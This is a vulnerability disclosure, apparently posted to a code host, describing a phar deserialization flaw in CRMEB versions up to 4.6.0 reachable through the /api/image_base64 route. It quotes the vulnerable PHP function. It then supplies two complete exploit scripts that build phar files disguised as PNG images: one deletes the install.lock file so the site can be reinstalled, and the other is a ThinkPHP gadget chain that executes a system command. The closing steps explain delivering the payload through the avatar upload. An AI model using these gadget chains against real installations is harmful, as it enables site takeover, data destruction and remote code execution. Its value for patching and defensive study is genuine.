



# CRMEB is vulnerable to deserialization

## Description
    A deserialization vulnerability exists in the CRMEB <= 4.6.0
## Vendor Homepage
    https://gitee.com/ZhongBangKeJi/CRMEB,https://www.crmeb.com/

## Author
    HuBenLab
## Proof of Concept
The problem lies in the /api/image_base64 route, which corresponds to the function put_image in api/controller/v1/PublicController.php

```php
    function put_image($url, $filename = '')
    {

        if ($url == '') {
            return false;
        }
        try {
            if ($filename == '') {

                $ext = pathinfo($url);
                if ($ext['extension'] != "jpg" && $ext['extension'] != "png" && $ext['extension'] != "jpeg") {
                    return false;
                }
                $filename = time() . "." . $ext['extension'];
            }

            //文件保存路径
            ob_start();
            readfile($url);
            $img = ob_get_contents();
            ob_end_clean();
            $path = 'uploads/qrcode';
            $fp2 = fopen($path . '/' . $filename, 'a');
            fwrite($fp2, $img);
            fclose($fp2);
            return $path . '/' . $filename;
        } catch (\Exception $e) {
            return false;
        }
    }
}
```

Analyze the code, first enter to get into the put_image function in front of the image_to_base64 function must return flase, as long as it can not initiate a normal request, and then come to the readfile function $url is controllable, and readfile function is also in the table that triggers phar deserialization.

Find a class of arbitrary file deletion, and first generate a phar file, and after generation change the file suffix to .png.

```php
<?php
namespace PhpOffice\PhpSpreadsheet\Shared{
class XMLWriter{
    private $tempFileName = '../../public/install.lock';//这里最要使用绝对路径，删除重装锁。
}
}
namespace {
    use PhpOffice\PhpSpreadsheet\Shared\XMLWriter;
    @unlink('shell.png');
    $phar = new Phar("shell.phar"); //
    $phar->startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $object = new XMLWriter();
    $phar->setMetadata($object);
    $phar->addFromString("a", "a"); //添加要压缩的文件

    $phar->stopBuffering();

    echo (base64_encode(serialize(new  XMLWriter())));

}
?>
```

```php
<?php
namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp)
        {
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp)
        {
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct()
        {
            $this->url = '<?= system(\'touch /tmp/nishi\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct()
        {
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        protected $clientArg = [];

        public function __construct()
        {

            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'], # 利用类和方法
            ];
            $this->app = new \think\App();
            $this->clientArg = ['tabid'=>'1'];
        }
    }
}


namespace {
    @unlink('shell.png');
    $phar = new Phar("phar.phar"); //
    $phar->startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);

    $phar->setMetadata($a);
    $phar->addFromString("a", "a"); //添加要压缩的文件

    $phar->stopBuffering();

}
?>
```

Come to the front-end avatar upload. Here first you have to register a member user, some environments are missing features, you can use the test user, if you can't log in then you can't take advantage of it.



Use phar for deserialization to remove reload locks, because I write a lot of output in my code here, so the corresponding package responds with more information.



Revisiting the site revealed that it could be reinstalled.



